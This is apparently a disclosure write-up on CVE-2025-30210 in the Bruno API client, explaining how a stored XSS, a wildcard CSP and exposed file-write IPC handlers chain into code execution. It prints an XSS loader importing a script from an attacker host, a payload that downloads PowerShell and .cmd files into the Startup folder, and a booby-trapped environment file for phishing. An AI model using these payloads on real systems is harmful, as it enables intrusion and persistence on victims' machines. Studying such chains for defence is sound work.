Attacking Bruno : Peeling the Brunion
Attacking Bruno : a small Electron for a nuclear reaction
0. Introduction
Bruno is the open-source alternative to Postman. Both tools are used for API testing and development and both aim at making API workflows less painful, which makes them a staple of any developer’s toolbox. Bruno being an Electron application, it inherits the whole web attack surface plus a desktop one — and that combination is exactly what we are going to abuse here.
Before going further, a word of caution : nothing in this post is a brand new exploitation primitive. It is a fairly classic Electron killchain — an XSS, a loose CSP and a couple of dangerous functions exposed over IPC. What is (hopefully) interesting is how those three mundane weaknesses, none of them dramatic on its own, are chained together into a remote code execution against a developer tool. The chain was disclosed to the Bruno team and is tracked as CVE-2025-30210 (CVSS 8.7), fixed in Bruno 1.39.1.
In this blog post we will :
- Cover the fundamentals of the Electron framework and its attack surface
- Walk through three weaknesses discovered in Bruno (a Stored XSS, a loose CSP and a dangerous IPC function exposed through
contextBridge) - Chain them into a full killchain leading to an arbitrary file write, and then weaponize it into code execution
No more talking, let’s jump into the technical stuff.
1. Electron 101
The Electron framework is the go-to solution when one wants to port a website into a lightweight desktop application. Under the hood, it is essentially three things glued together :

- Node.js for everything filesystem / OS related ;
- Chromium to render the UI ;
- and your web application (HTML/CSS/JS) sitting on top.
The immediate consequence is that an Electron application can be plagued by every vulnerability you would find on the web (XSS being the obvious one), on top of the ones you would expect from a desktop application (arbitrary file write, code execution, …).
1.1 The attack surface
When auditing an Electron application, the attack surface can be broken down into four layers :

In this article we will focus almost exclusively on layer 1 — the application custom code : the insecure user input (our XSS), the security flags and the preload script. The framework and third-party binaries (Chromium n-days and friends) are way out of scope — if you are burning a Chromium 0-day, you probably have better targets than an API client.
1.2 Inner working : processes and IPC
Two concepts are mandatory to understand the rest of this post : the process model and the IPC.

- The renderer process is where the web content lives (our HTML/JS). This is where an XSS gets us a foothold. By design it should be isolated and should not be able to touch Node.js directly.
- The main process is the privileged one. It has full access to Node.js, the OS and any “dangerous” function the developer decides to expose.
- The two can only talk to each other through the IPC (Inter-Process Communication). The renderer sends/receives messages, the main process handles them.
The whole security of an Electron application boils down to one question : what can the renderer make the main process do through that IPC channel ? Keep that in mind, it is the crux of the whole killchain.
For a deeper dive into Electron pentest methodology, the Electronegativity tool and the Doyensec research on the subject are an excellent starting point.
2. Analyzing Bruno
2.1 Unpacking app.asar
Electron applications ship their source code in an app.asar archive (basically a tar-like blob) sitting in the resources/ folder :

Unpacking it is a one-liner with the asar utility :
npx asar extract app.asar bruno_demo
ls -l bruno_demo

And just like that we get the full unminified-ish source : package.json, src/, node_modules/, the whole thing. From an attacker’s point of view, an Electron app is basically open source whether the vendor likes it or not.
2.2 index.js : the security configuration
The first file worth reading is the one that creates the main BrowserWindow, because it holds all the security-relevant flags (sandbox, nodeIntegration, contextIsolation, the preload script, …) :

At first glance this looks bad — nodeIntegration: true would normally mean “free RCE from any XSS”. But there is a subtlety : contextIsolation is also set to true, and the two settings conflict. When context isolation is enabled, nodeIntegration is effectively ignored and treated as false. So no, we will not be calling require('child_process') straight from our XSS.
Here is the decision matrix depending on the combination of flags :

Bruno sits in the last row : Node Integration and Context Isolation both enabled. Direct RCE and preload-based exploitation are off the table, which leaves us with one realistic path — abusing the functions exposed through contextBridge. We will come back to it in part 4.
3. Finding our XSS
The free version of Bruno does not provide a lot of input vectors, so identifying an entry point is mostly a matter of iterating over the few data sources available and looking for one that is rendered without sanitization.
3.1 Finding the entry point
It turns out that the name of a global environment is not sanitized before being displayed, which makes it prone to a Stored XSS injection. A payload as simple as :
<img src="" onerror=alert(1) />
dropped into the environment name is enough to pop the classic alert(1) :

No filtering whatsoever is applied before the user-controlled data is rendered. So far so good — but there is a catch.
3.2 The 50 characters problem
The environment name field caps our input at 50 characters. That is more than enough for an alert(1) PoC, but nowhere near enough to stage a real payload (download a file, talk to the IPC, …). This limitation is exactly what we will circumvent thanks to the next weakness.
4. You shall pass ! — abusing a loose CSP
As seen earlier, index.js is also where the Content Security Policy is defined. A well-configured CSP would, in theory, prevent us from loading external scripts and largely neuter the XSS. Let’s see what Bruno implemented.
4.1 Is this a real CSP ?
Bruno did implement a CSP. Unfortunately, it was loose to the point of being decorative :

Look at the script-src directive :
"script-src * 'unsafe-inline' 'unsafe-eval'",
The wildcard * combined with 'unsafe-inline' and 'unsafe-eval' means our script can be hosted anywhere and will be happily loaded and executed by the application. A CSP with a wildcard script-src is a wall with a very nice door cut into it.
4.2 Beating the 50 char limit
This is the key that unlocks the whole chain. Instead of trying to cram a payload into 50 characters, we simply use those precious characters to load a remote script from a server we control :
<img/src/onerror=import('http://<IP_ADDR>/a.js')>
That is well under the limit, and a.js hosted on our box can be as large as we want. The 50-character cap is now irrelevant : our XSS is a tiny loader, and the real logic lives on the attacker’s server.
5. Code execution through contextBridge
At this point we can :
- Inject JavaScript into the renderer (the Stored XSS)
- Run an arbitrarily large payload (the loose CSP loader)
But we are still stuck inside the renderer. To turn this into something dangerous we need the main process to do our bidding, and as established in part 2 the only realistic route is a dangerous function exposed through contextBridge.
5.1 A quick reminder on Context Isolation and IPC
Context isolation separates the JavaScript context of the renderer from the main process, which is supposed to prevent the renderer from reaching Node.js APIs directly. But isolation does not magically make things safe : the developer still has to expose the functions the renderer legitimately needs, and whatever is exposed becomes attack surface.
Functions are exposed with contextBridge.exposeInMainWorld, and communication then happens over the IPC :
send/onandinvokefrom the renderer sidehandlefrom the main side
Bruno’s preload.js exposes the whole ipcRenderer to the renderer world :

Exposing a generic invoke like this is a big deal : it means the renderer can call any IPC channel the main process registers with ipcMain.handle. So the real question becomes : what does the main process handle ?
5.2 Searching for exposed functions
Grepping for ipcMain.handle in the source gives a long list of handlers — Bruno wires most of its internal functionality through the IPC :

Two of them immediately stand out : renderer:new-file and renderer:save-file.
5.3 renderer:new-file — arbitrary file creation
The new-file handler creates a file at an attacker-controlled path. The only check is whether the file already exists — no path filtering, no allow-list, nothing :

We can therefore create an empty file anywhere the user has write access.
5.4 renderer:save-file — arbitrary content
An empty file is not very useful, so let’s fill it. renderer:save-file does exactly that, and just like its sibling it enforces no path filtering :

Both ultimately call the same helper, an unguarded fs.writeFileSync :

The only real restriction is the UTF-8 encoding, which prevents us from writing raw binary content. That is a minor annoyance — plenty of interesting payloads (.ps1, .cmd, .bat, …) are plain text.
6. Full killchain
Let’s recap what we have stitched together :
- Stored XSS on the global environment name (CVE-2025-30210)
- Loose CSP with a wildcard
script-src, used to bypass the 50-character limit - Arbitrary file write through the
renderer:new-file+renderer:save-filefunctions exposed viacontextBridge(part of the same advisory)
6.1 The XSS loader
The XSS payload itself just bootstraps the real one from our server :
<img/src/onerror=import('http://<IP_ADDR>/a.js')>
6.2 The IPC payload
a.js, hosted on our VPS, is fetched and executed by Bruno. It downloads a malicious PowerShell script and a .cmd, then uses the IPC primitives to write them to disk — including a .cmd dropped straight into the user’s Startup folder for persistence :

var currentLocation = window.location.href;
// Leak the current path with the username
console.log(currentLocation);
// Download the RCE.ps1 file
var downloader = new XMLHttpRequest();
downloader.open("GET", "http://<IP_ADDR>/RCE.ps1", false);
downloader.send();
var maliciousPS1 = downloader.responseText;
ipcRenderer.invoke("renderer:new-file", "C:/Users/pentest/Documents/WindowsPowerShell/RCE.ps1");
ipcRenderer.invoke("renderer:save-file", "C:/Users/pentest/Documents/WindowsPowerShell/RCE.ps1", maliciousPS1);
// Download the cmd file to be put in the startup folder
var downloader2 = new XMLHttpRequest();
downloader2.open("GET", "http://<IP_ADDR>/startup.cmd", false);
downloader2.send();
var maliciousCMD = downloader2.responseText;
ipcRenderer.invoke("renderer:new-file", "C:/Users/pentest/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/startup.cmd");
ipcRenderer.invoke("renderer:save-file", "C:/Users/pentest/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/startup.cmd", maliciousCMD);
Dropping a .cmd in ...\Start Menu\Programs\Startup\ means our payload executes on the next logon — arbitrary file write turned into code execution and persistence in one move.
Note : OPSEC is not the purpose of this blog post. The Startup folder is about as loud as persistence gets — plenty of stealthier options exist. Here it is only used to keep the killchain easy to follow.
7. Bonus : weaponizing the killchain
An alert(1) in your own client is one thing ; landing the chain on someone else’s machine is another. The nice property of this XSS is that it lives in an environment, and environments are meant to be shared between teammates as Postman/Bruno collections. That makes it a perfect phishing vehicle.
7.1 Crafting a malicious environment
We export a Postman environment whose name is our XSS loader :

{
"id": "ab8239b5-6cfc-4f1b-b688-86073aa0f58e",
"name": "<img/src/onerror=import('http:<IP_ADDR>/a.js')>",
"values": [],
"_postman_variable_scope": "environment",
"_postman_exported_at": "2025-01-27T15:37:32.739Z",
"_postman_exported_using": "Postman/11.30.0"
}
When the victim imports this collection into Bruno, the environment name is rendered, the XSS fires, our remote payload is pulled and the killchain runs — all from a file that looks like a perfectly normal API collection.
7.2 The full chain in action
Here is the whole thing end to end — importing the malicious environment, the XSS firing on the rendered name, the remote payload being pulled and, finally, code execution on the victim’s machine :
8. Conclusion
None of the three weaknesses is spectacular on its own : an XSS in a name field, an overly permissive CSP, a couple of unfiltered file helpers. But chained together they turn a JSON file shared between developers into reliable code execution. A few takeaways :
- Electron’s security flags conflict in non-obvious ways —
nodeIntegration: truelooked catastrophic but was neutralised bycontextIsolation. - A wildcard
script-srcdefeats the entire point of a CSP. It single-handedly removed the only mitigation standing between a 50-char XSS and a full remote payload. - Whatever you expose over
contextBridge/IPC is attack surface. Exposing a genericinvokehands the renderer the keys to every handler in the main process.
Responsible disclosure was carried out with the Bruno team. The chain is tracked as CVE-2025-30210 (GHSA-fqxc-cxph-9vq8, CVSS 8.7) and was fixed in Bruno 1.39.1.
Thanks for reading, and feel free to reach out @ottersecx if you want to talk Electron internals.
Note : the grammar and phrasing of this article have been corrected and reworded with the help of an LLM.